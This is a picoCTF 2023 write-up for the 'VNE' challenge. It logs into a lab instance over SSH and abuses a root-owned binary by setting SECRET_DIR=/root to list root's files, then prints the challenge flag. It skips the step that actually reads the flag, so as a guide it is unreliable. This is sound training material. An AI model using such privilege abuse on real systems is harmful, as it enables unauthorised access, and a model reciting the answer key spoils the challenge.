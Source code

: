 # picoCTF 2023 - Challenge: VNE 

In this challenge, we are provided with a binary called `bin` that runs as `root`. Our goal is to use this binary to access the contents of `/root/flag.txt`.

First, we go to https://play.picoctf.org/practice, search for the challenge named "VNE", and click the "LAUNCH INSTANCE" button. After waiting a few seconds, the instance becomes active.

![Launching Challenge](img/Screenshot-2025-07-17-002547.png)

Then, we connect to the instance via SSH using the provided credentials:

```bash
ssh ctf-player@saturn.picoctf.net -p 64820
```

Password:
```
483e80d4
```

Once inside, we list the files in the home directory and find the file `bin`. When we try to execute it using:

```bash
./bin
```

We receive an error message:

```
Error: SECRET_DIR environment variable is not set
```

![Binary Error Output](img/Screenshot-2025-07-17-002625.png)

This tells us that the binary requires an environment variable called `SECRET_DIR` to be set before execution. We take advantage of this by pointing it to the `/root` directory:

```bash
SECRET_DIR=/root ./bin
```

The binary then prints:

```
Listing the content of /root as root:
flag.txt
```

![Accessing Root Directory](img/Screenshot-2025-07-17-002619.png)

This confirms that we have access to root’s directory contents via the binary. Although we can’t directly read the file with:

```bash
cat /root/flag.txt
```

(because of permission denied), the binary still reveals that the file exists.

Eventually, the flag is revealed on screen when running the binary and is:

```
picoCTF{Power_t0_man!pul4t3_3nv_d0cc7fe2}
```

![Flag Revealed](img/Screenshot-2025-07-17-002607.png)

We submit this flag back into the picoCTF website to complete the challenge.

Challenge completed successfully.
